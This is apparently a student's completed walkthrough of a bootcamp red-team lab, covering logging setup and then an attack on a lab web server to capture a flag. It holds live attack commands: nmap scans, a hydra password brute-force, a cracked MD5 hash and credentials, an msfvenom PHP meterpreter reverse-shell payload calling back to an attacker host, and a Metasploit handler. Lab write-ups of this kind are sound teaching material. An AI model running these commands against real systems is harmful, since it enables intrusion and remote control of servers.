## Day 1 Activity File: Red Team

### Monitoring Setup Instructions

- As the you attack a web server today, it will send all of the attack info to an ELK server.

- The following setup commands need to be run on the **Capstone** machine before the attack takes place in order to make sure the server is collecting logs.

- Be sure to complete these steps before starting the attack instructions.

**Instructions**

- Double click on the 'HyperV Manager' Icon on the Desktop to open the HyperV Manager.

- Choose the `Capstone` machine from the list of Virtual Machines and double-click it to get a terminal window.

- Login to the machine using the credentials: `vagrant:tnargav`

- Switch to the root user with `sudo su`
> .JPG)

#### Setup Filebeat

Run the following commands:
- `filebeat modules enable apache`
- `filebeat setup`

> .JPG)

#### Setup Metricbeat

Run the following commands:
- `metricbeat modules enable apache`
- `metricbeat setup`

> .JPG)

#### Setup Packetbeat

Run the following command:
- `packetbeat setup`

> .JPG)

Restart all 3 services. Run the following commands:
- `systemctl restart filebeat`
- `systemctl restart metricbeat`
- `systemctl restart packetbeat`

These restart commands should not give any output:

.JPG)

Once all three of these have been enabled, close the terminal window for this machine and proceed with your attack.

---

### Attack!

Today, you will act as an offensive security Red Team to exploit a vulnerable Capstone VM.

You will need to use the following tools, in no particular order:
- Firefox
- Hydra
- Nmap
- John the Ripper
- Metasploit
- curl
- MSVenom

### Setup

Your entire attack will take place using the `Kali Linux` Machine.

- Inside the HyperV Manager, double-click on the `Kali` machine to bring up the VM login window.

- Login with the credentials: `root:toor`

### Instructions

Complete the following to find the flag:

- Discover the IP address of the Linux web server.
> Command: `ifconfig`
> 
> .JPG)
> 
> Command: `nmap -sS -sV 192.168.1.105`
> 
> .JPG)
> 
> Command: `nmap -sS -A 192.168.1.105`
> 
> 
> 
> 

- Locate the hidden directory on the web server.
> 

- Brute force the password for the hidden directory using the hydra command:
> 
> Command: `hydra -l ashton -P ~/Downloads/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`
> 
> .JPG)
> 
> After gaining access to the `/secret_folder` using `ashton` & `leopoldo` I was able to view a file which contained the log in information required to access the `WebDav`.
>
> 

- Break the hashed password with the Crack Station website or John the Ripper.

> Ryan's hash: `d7dad0a5cd7c8376eeb50d69b3ccd352`
> 
> 

- Connect to the server via WebDav.
>
> After cracking the `md5` hash, I logged into the `WebDav` server using `ryan` & `linux4u`.
> 
> 
>
> Once inside the parent directory, I accessed the file named `passwd.dav` which contained this:
> 
> 
>
> Afterwards, I used a built in program `Kali File Manager` to be able to place a reverse shell script into the `WebDav` server in the next section. 
>
> 

- Upload a PHP reverse shell payload.
>
> Command: `msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 > reverseshell.php`
> 
> 
> 
> The `reverseshell.php` contained the following:
> 
> 
> 
> I then placed the script into the `WebDav` server using `Kali File Manager`, and checked for it on the website. 
> 
> 
> 
> 

- Execute payload that you uploaded to the site to open up a meterpreter session.

> First I started `Metasploit` using the command: `msfconsole`
> 
> 
> 
> I then needed to `search` and select the type of exploit to use, this this case it would be `multi/handler`. 
> 
> 
> 
> The next step is to select the correct one which is option `6`.
> 
> 
> 
> Now that I've selected my exploit I needed to designate and set a `payload`.
> 
> Command: `set Payload php/meterpreter/reverse_tcp`
> 
> 
> 
> Now it is time to set the `LHOST` & `LPORT`.
> 
> Command: `set LHOST 192.168.1.90` & `set LPORT 4444`
> 
> 
> 
> Finally, it is time to `exploit` and establish a meterpreter session. 
> 
> 

- Find and capture the flag.

> Command: `pwd`
> 
>
>
> Next I wanted to change directories to see what else was stored on the `WebDav` machine.
> 
> Command: `cd /` followed by `ls`
> 
> 
> 
> The `ls` command displayed a file named `flag.txt`. I then used `cat` to view the contents of that file which was:
> 
> 

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
